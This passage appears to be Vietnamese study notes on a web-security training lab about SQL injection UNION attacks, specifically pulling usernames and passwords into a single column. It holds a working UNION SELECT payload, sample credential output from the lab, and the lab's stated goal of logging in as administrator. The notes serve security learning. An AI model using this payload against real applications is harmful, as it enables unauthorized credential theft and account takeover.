

---

**Retrieving multiple values within a single column**

> Nối các chuỗi với nhau:

```
' UNION SELECT username || '~' || password FROM users--
```

Ki tự `||` là toán tử nối trên oracle
->

```
...
administrator~s3cure
wiener~peter
carlos~montoya
...
```

### Lab: SQL injection UNION attack, retrieving multiple values in a single column

> Des: Phòng thí nghiệm này chứa lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, do đó bạn có thể sử dụng một cuộc tấn công UNION để lấy dữ liệu từ các bảng khác.

> Cơ sở dữ liệu chứa một bảng khác được gọi là người dùng, với các cột được gọi là tên người dùng và mật khẩu.

> Để giải quyết phòng thí nghiệm, hãy thực hiện một cuộc tấn công SQL injection UNION để truy xuất tất cả tên người dùng và mật khẩu, đồng thời sử dụng thông tin để đăng nhập với tư cách là người dùng quản trị viên.

Xác định số cột và trường của cột:  
